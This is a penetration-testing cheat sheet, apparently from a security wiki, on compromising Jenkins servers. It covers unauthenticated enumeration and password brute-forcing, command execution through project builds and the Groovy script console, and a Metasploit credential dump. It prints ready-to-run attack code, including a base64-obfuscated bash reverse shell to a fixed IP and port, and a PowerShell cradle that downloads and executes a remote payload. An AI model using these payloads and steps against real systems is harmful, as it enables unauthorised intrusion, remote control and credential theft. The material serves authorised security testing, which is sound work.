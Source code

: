 # Jenkins

## Enumeration

In order to search for interesting Jenkins pages without authentication like \(_/people_ or _/asynchPeople_, this lists the current users\) you can use:

```text
msf> use auxiliary/scanner/http/jenkins_enum
```

Check if you can execute commands without needing authentication:

```text
msf> use auxiliary/scanner/http/jenkins_command
```

Without credentials you can look inside _**/asynchPeople/**_ path or  _**/securityRealm/user/admin/search/index?q=**_ for **usernames**.

You may be able to get the Jenkins version from the path _**/oops**_ or _**/error**_

![](../../.gitbook/assets/image%20%28422%29.png)

## Login

You will be able to find Jenkins instances that **allow you to create an account and login inside of it. As simple as that.**  
Also if **SSO** **functionality**/**plugins** were present then you should attempt to **log-in** to the application using a test account \(i.e., a test **Github/Bitbucket account**\). Trick from [**here**](https://emtunc.org/blog/01/2018/research-misconfigured-jenkins-servers/).

### Bruteforce

**Jekins** does **not** implement any **password policy** or username **brute-force mitigation**. Then, you **should** always try to **brute-force** users because probably **weak passwords** are being used \(even **usernames as passwords** or **reverse** usernames as passwords\).

```text
msf> use auxiliary/scanner/http/jenkins_login
```

## Exploiting Vulnerabilities

{% embed url="https://github.com/gquere/pwn\_jenkins" %}

## Code Execution

There are 3 ways to get **code execution** with Jenkins.

### **Create a new project**

This method is very noisy because you have to create a hole new project \(obviously this will only work if you user is allowed to create a new project\).

1. Create a new project \(Freestyle project\)
2. Inside **Build** section set **Execute shell** and paste a powershell Empire launcher or a meterpreter powershell \(can be obtained using _unicorn_\). Start the payload with _PowerShell.exe_ instead using _powershell._
3. Click **Build now**

\*\*\*\*

Go to the projects and check **if you can configure any** of them \(look for the "Configure button"\):

![](../../.gitbook/assets/image%20%28228%29.png)

Or **try to access to the path** _**/configure**_ in each project \(example: /_me/my-views/view/all/job/Project0/configure_\).

If you are allowed to configure the project you can **make it execute commands when a build is successful**:

![](../../.gitbook/assets/image%20%2887%29.png)

Click on **Save** and **build** the project and your **command will be executed**.  
If you are not executing a reverse shell but a simple command you can **see the output of the command inside the output of the build**.

### **Execute Groovy script**

Best way. Less noisy.

1. Go to _path\_jenkins/script_
2. Inside the text box introduce the script

```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```

You could execute a command using: `cmd.exe /c dir`

In **linux** you can do:  **`"ls /".execute().text`**

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ \(triple double quotes\) to execute the payload.

**Another useful groovy script** is \(replace \[INSERT COMMAND\]\):

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in linux

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

### MSF exploit

You can use MSF to get a reverse shell:

```text
msf> use exploit/multi/http/jenkins_script_console
```

## POST

Dump Jenkins credentials using:

```text
msf> post/multi/gather/jenkins_gather
```

## References

{% embed url="https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/" %}

{% embed url="https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password" %}

